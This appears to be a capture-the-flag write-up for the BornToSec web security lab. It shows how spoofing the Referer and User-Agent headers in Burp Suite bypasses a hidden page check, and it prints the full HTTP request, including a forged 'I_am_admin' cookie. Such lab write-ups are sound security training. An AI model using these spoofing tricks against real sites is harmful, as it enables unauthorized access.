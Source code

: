 # headers
In the footer of the home page there is a link © BornToSec
We inspect the page we got some comments at the end of the page

> You must come from : "https://www.nsa.gov/".

>	Let's use this browser : "ft_bornToSec". It will help you a lot.

We need to change the headers in the request to do that I used burpsuite 

changed referer header to "https://www.nsa.gov/
and User-Agent to ft_bornToSec

the request is now like this :

> GET /?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f HTTP/1.1

>Host: 10.11.43.99

>Cache-Control: max-age=0

>Upgrade-Insecure-Requests: 1

>User-Agent: ft_bornToSec

>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

>Referer: https://www.nsa.gov/

>Accept-Encoding: gzip, deflate

>Accept-Language: en-US,en;q=0.9

>Cookie: I_am_admin=68934a3e9455fa72420237eb05902327

>Connection: close 

send the request in the intruder

and got the flag!
